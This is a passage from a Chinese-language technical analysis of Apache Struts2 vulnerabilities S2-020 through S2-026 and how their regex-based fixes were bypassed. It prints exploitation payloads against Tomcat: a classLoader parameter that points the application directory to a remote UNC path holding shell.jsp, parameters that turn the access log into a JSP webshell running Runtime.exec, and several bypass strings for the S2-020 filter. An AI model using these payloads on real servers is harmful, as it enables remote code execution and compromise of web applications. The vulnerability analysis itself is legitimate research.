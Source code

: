 ```java
	    x.printStackTrace();
	} catch (java.lang.IllegalAccessException x) {
	    x.printStackTrace();
	} catch (java.lang.reflect.InvocationTargetException x) {
	    x.printStackTrace();
	} 	
}%>
```

由于根据环境不同，`class.classLoader` 对应的结果是不同的，因此这个漏洞的利用不是特别的具有通用性，在此篇文章中，也只针对 Tomcat 进行研究和测试。

利用这个方式，目前在互联网上出现了一些 Tomcat 或其他中间件的 RCE 的利用方式：

1. Tomcat 应用目录更改为恶意 UNC 路径：
```
class.classLoader.resources.dirContext.docBase=\\192.168.1.1\shell.jsp
```

2. 修改日志记录文件位置、文件名、文件后缀，通过访问时带入恶意 jsp 代码，将日志文件后缀修改为 jsp，这样访问时程序会以 jsp 代码进行解析，执行恶意文件。
```
class.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT
class.classLoader.resources.context.parent.pipeline.first.prefix=shell
class.classLoader.resources.context.parent.pipeline.first.suffix=.jsp
class.classLoader.resources.context.parent.pipeline.first.fileDateFormat=1
<%Runtime.getRuntime().exec("calc");%>
```

S2-020 的修复在 excludeParams 的正则中添加了 `^class\..*`，这种形式，可以轻易使用如下方式绕过：

```
class['classLoader'].resources.dirContext.docBase=
top.class.classLoader.resources.dirContext.docBase=
Class.classLoader.resources.dirContext.docBase=
```

于是 S2-021 的修复又添加了对 classloader 字符的拦截。

而 S2-022 与之前是相同的漏洞，只不过由触发点由 ParametersInterceptor  变为了 CookieInterceptor。不再赘述。

# S2-026

Struts2 官方继续维护它的正则。

> 影响版本：Struts 2.0.0 - Struts Struts 2.3.24
> 参考链接：https://cwiki.apache.org/confluence/display/WW/S2-026
> 描述：对 top 在参数访问时进行限制。

在  S2-009 的分析中，我们使用了 `top['foo'](0)` 的形式用来对 foo 进行二次 OGNL 解析，这实际上是使用了 top 可以访问 root 中的第一个对象的特性，在 S2-026 的通告中，官方禁止了通过参数名使用 top 访问上下文中的内容。

这就解决了我们在 S2-020 分析中提到的问题。同时官方提供了一个新正则，用来在其他版本中缓解这个漏洞情况：

```
"(^|\\%\\{)((#?)(top(\\.|\\['|\\[\")|\\[\\d\\]\\.)?)(dojo|struts|session|request|response|application|servlet(Request|Response|Context)|parameters|context|_memberAccess)(\\.|\\[).*",
"^(action|method):.*"
```
